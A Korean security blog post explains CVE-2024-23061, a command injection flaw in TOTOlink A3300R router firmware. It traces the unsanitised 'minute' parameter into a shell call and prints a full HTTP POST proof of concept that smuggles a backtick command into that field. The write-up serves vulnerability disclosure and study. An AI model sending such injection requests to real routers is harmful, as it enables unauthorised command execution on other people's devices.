 ```yaml
---
title: "[하루한줄] CVE-2024-23061: TOTOlink A3300R 펌웨어 Command Injection 취약점"
author: pwndorei
tags: [TOTOlink, pwndorei, command injection]
categories: [1day1line]
date: 2024-01-25 17:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[TOTOlink A3300R V17.0.0cu.557_B20221024 Command Injection](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/3/TOTOLINK%20A3300R%20setScheduleCfg.md)

## Target

- TOTOlink A3300R Firmware Version: V17.0.0cu.557_B20221024

## Explain

TOTOlink 사의 라우터 제품인 A3300R의 펌웨어에서 Command Injection 취약점이 발견되었습니다.

펌웨어를 추출하고 라이브러리들의 목록을 살펴보면 `libcscommon.so`라는 라이브러리가 있는 것을 확인할 수 있습니다. 여기에 정의된 함수들 중 `Uci_Set_Str`이란 함수에서는 아래처럼 다양한 문자열들을 인자로 `snprintf` 함수를 호출해서 `uci -c %s set %s.%s.%s=\"%s\"`형태의 문자열을 포맷팅하고 이를 인자로 `CsteSystem`함수를 호출합니다.

![image0](2024-01-25/image0.png)

 `CsteSystem` 함수에서는 인자로 전달 받은 문자열을 사용해서 `execv("/bin/sh", <cmd line>)`을 호출하여 실행파일 uci를 명령줄 인자와 함께 실행합니다.

![image1](2024-01-25/image1.png)

취약점은 `setScheculeCfg` 요청을 받았을 때 `minute` 파라미터로 전달한 값이 아래처럼 `Uci_Set_Str` 함수의 인자로 아무런 sanitizing 없이 사용되면서 발생합니다.

![image2](2024-01-25/image2.png)

결과적으로 `Uci_Set_Str`함수에서 `snprintf`로 포맷팅된 아래와 같은 문자열을 `CsteSystem`함수 호출에 사용하면서 Command Injection이 가능하게 됩니다.

```bash
uci -c {pcVar3} set {pcVar2}.rebootsch.minute=\"{minute}\"
```

아래의 PoC는 `ls>/web/345.txt`라는 OS Command를 Injection하는 페이로드를 `minute` 파라미터를 통해 전달합니다.

```
POST /cgi-bin/cstecgi.cgi?token=AEAF12ADD613E086 HTTP/1.1
Host: itotolink.net
Content-Length: 107
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://itotolink.net
Referer: http://itotolink.net/advance/schedule.html?token=AEAF12ADD613E086
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

{"mode":"1","hour":"1","minute":"14`ls>/web/345.txt`","week":"64","recHour":"","topicurl":"setScheduleCfg"}
```

`minute`로 전달된 ``14\`ls>/web/345.txt``는 `snprintf`를 거쳐 아래와 같이 `CsteSystem` 함수 호출에 사용됩니다

```c
CsteSystem("uci -c {pcVar3} set {pcVar2}.rebootsch.minute=\"14`ls>/web/345.txt`\"", 0);
```

backtick(`` ` ``)으로 감싸진 `ls>/web/345.txt` 가 실행되면서 `ls`의 출력이 `/web/345.txt`라는 파일에 저장되고  `/345.txt`로 GET 요청을 보내는 것으로 Command Injection이 트리거된 것을 확인할 수 있습니다.

![image3](2024-01-25/image3.png)

이 취약점 외에도 CVE-2024-23059, CVE-2024-23060 등 유사하거나 같은 방식으로 Command Injection이 가능한 취약점이 다수 존재합니다.

## Reference

- [Related CVEs](https://www.cvedetails.com/vulnerability-list/vendor_id-16807/product_id-141084/version_id-740353/Totolink-A3300r-Firmware-17.0.0cu.557-b20221024.html)